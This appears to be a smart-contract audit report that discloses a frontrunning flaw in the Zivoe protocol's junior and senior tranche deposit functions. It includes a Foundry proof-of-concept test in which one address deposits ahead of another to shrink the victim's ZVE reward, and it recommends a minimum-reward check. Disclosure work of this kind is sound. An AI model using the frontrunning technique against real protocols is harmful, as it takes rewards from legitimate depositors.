 Fresh Midnight Zebra

high

# Frontrunning Vulnerability in `ZivoeTranches:depositJunior` and  `ZivoeTranches:depositSenior` Functions

## Summary

This report details a frontrunning vulnerability discovered in the `ZivoeTranches` contract functions` ZivoeTranches:depositJunior` and `ZivoeTranches:depositSenior`. An attacker can exploit this vulnerability to manipulate the reward token distribution mechanism in function `ZivoeTranches:rewardZVEJuniorDeposit` and `ZivoeTranches:rewardZVESeniorDeposit` , unfairly reducing the rewards received by legitimate users.

## Vulnerability Detail

The vulnerability lies in the logic used to calculate the reward token amount for users depositing funds into the junior or senior tranches. The reward calculation depends on the average ratio between the junior and senior token supplies at the time of deposit. An attacker can exploit this mechanism by performing a frontrunning attack

## Proof of Concept (PoC)

The provided PoC function `test_frontRunning` demonstrates the frontrunning attack scenario. The attacker (address alice) frontruns the victim (address nick) by depositing funds before nick's transaction. This manipulation reduces the reward tokens received by nick.



```solidity
function test_frontRunning() public {

        hevm.startPrank(address(god));
        ZVT.updateMaxZVEPerJTTMint(0.005 * 10**18);
        hevm.stopPrank();

        hevm.startPrank(address(god));
        ZVT.updateMinZVEPerJTTMint(0.004 * 10**18);
        hevm.stopPrank();

        address minter = address(11);

        address owner = zJTT.owner();


        vm.startPrank(owner);

        zJTT.changeMinterRole(minter, true);
        zSTT.changeMinterRole(minter, true);
        vm.stopPrank();

        //Increasing the supply for tokens zJTT and zSTT.
        vm.startPrank(minter);
        zJTT.mint(address(10), 2 ether);
        zSTT.mint(address(10), 100 ether);
        vm.stopPrank();

        // Address of the genuine user or victim
        address nick = address(1);    
        //Address of attacker
        address alice = address(2);

        //Amount the user has to deposit 
        uint256 nick_Deposit_Amount = 7 ether;

        //Amount the user will expects he will as reward 

        //----------------CALCULATION --------------- 
        //startRatio = juniorSupp * BIPS / seniorSupp = 2/100 *10000 = 200
        // uint256 finalRatio = (juniorSupp + deposit) * BIPS / seniorSupp = (2+7)/100 * 10000 = 900
        //avg = (200+900)/2 = 550
        //so avg<lowerRatioIncentiveBIPS(1000) => avgRate = maxZVEPerJTTMint; (Nick's reward token should be minted with 'maxZVEPerJTTMint')
        // ------------------------------------------

        uint256 nick_Reward = ZVT.rewardZVEJuniorDeposit(nick_Deposit_Amount); //---- 35000000000000000
        console.log("The reward expected by nick",nick_Reward);

        //Unlocking the zivoeTranche to start deposit 
        vm.startPrank(address(ITO));
        ZVT.unlock();
        vm.stopPrank();
        
        //Alice front runs the nick's attack
        //Alice mints reward token with (avgRate = maxZVEPerJTTMint)
        vm.startPrank(alice);
        deal(address(DAI), alice, 14 ether);
        IERC20(address(DAI)).approve(address(ZVT), 14 ether);
        ZVT.depositJunior(14 ether, address(DAI));
        vm.stopPrank();

        //Now nick's transaction proceeds 
        //This is the amount of reward  nick's will actually get
        //----------------CALCULATION --------------- 
        //startRatio = juniorSupp * BIPS / seniorSupp = 16/100 *10000 = 1600
        // uint256 finalRatio = (juniorSupp + deposit) * BIPS / seniorSupp = (16+7)/100 * 10000 = 2300
        //avg = (1600+2300)/2 = 1960
        //so avg>lowerRatioIncentiveBIPS(1000) => avgRate = minZVEPerJTTMint; (Nick's reward token will actually minted with 'minZVEPerJTTMint')
        // ------------------------------------------
        uint256 nick_Reward2 = ZVT.rewardZVEJuniorDeposit(nick_Deposit_Amount); //---- 32340000000000000
        // 35000000000000000(3.5e16) - 32340000000000000(3.234e16) = 2660000000000000(0.266e16) (User will get 0.266e16 tokens than intended)
        console.log("The reward nick will get",nick_Reward2);

        //Then user nick transaction proceeds
        vm.startPrank(alice);
        deal(address(DAI), nick, nick_Deposit_Amount);
        IERC20(address(DAI)).approve(address(ZVT), nick_Deposit_Amount);
        ZVT.depositJunior(nick_Deposit_Amount, address(DAI));
        vm.stopPrank();
    }
```

To test this code, paste it in Test_ZivoeTranches.sol and run the following command:
`forge test --mt test_frontRunning --fork-url <url>`


## Impact

This vulnerability allows attackers to unfairly gain additional reward tokens at the expense of legitimate users. Users depositing funds into the tranches are susceptible to receiving fewer reward tokens than intended.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeTranches.sol#L203-L229

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeTranches.sol#L236-L262

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeTranches.sol#L283

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeTranches.sol#L308

## Tool used

Manual Review

## Recommendation
* In function `ZivoeTranches:depositSenior` you can take input as min expected reward token, and inside the function make a require statement which checks the calculated reward should be greater then expected.
* You can use techniques to mitigate front running issues.
